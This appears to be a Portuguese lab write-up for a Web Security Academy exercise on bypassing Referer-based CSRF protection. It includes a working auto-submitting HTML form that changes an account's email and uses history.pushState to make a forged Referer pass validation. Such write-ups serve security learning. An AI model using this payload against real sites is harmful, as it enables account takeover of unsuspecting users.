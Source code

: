 Assim como no laboratório anterior, se alterarmos o campo `Referer` da requisição, o back-end não vai aceitar a requisição, porém ao ser removido, o back-end aceita a requisição.

Porém se copiarmos o domínio original do laboratório e anexa-lo ao cabeçalho Referer na forma de uma string de consulta. por exemplo:

```http

Referer: https://fake-domain?https://0a4000d6048bed70c1563ad000cf005b.web-security-academy.net

```

A requisição será aceita pelo back-end, pois o back-end não está validando o domínio do `Referer`.

com essa informação, podemos criar um script que envia a requisição para o back-end, e para isso, vamos utilizar o `exploit server` que o laboratório disponibiliza:

```html

<form method="POST" action="https://0a4000d6048bed70c1563ad000cf005b.web-security-academy.net/my-account/change-email">
        <input type="hidden" name="email" value="sonaelneto@user.net">
    </form>
    <script>
        history.pushState("", "", "/?https://0a4000d6048bed70c1563ad000cf005b.web-security-academy.net") 
        document.forms[0].submit();
    </script>


```

O comando `history.pushState()` é utilizado para alterar a URL do navegador, e nesse caso, estamos adicionando uma string de consulta na URL.

Assim o `Referer` da requisição será:

```http

Referer: https://exploit-0ada002b0438ed6ec16d395e015000d3.exploit-server.net/?https://0a4000d6048bed70c1563ad000cf005b.web-security-academy.net

```

Agora basta colocar esse script no `exploit server` que o laboratório disponibiliza:

![server](broken_server.png)
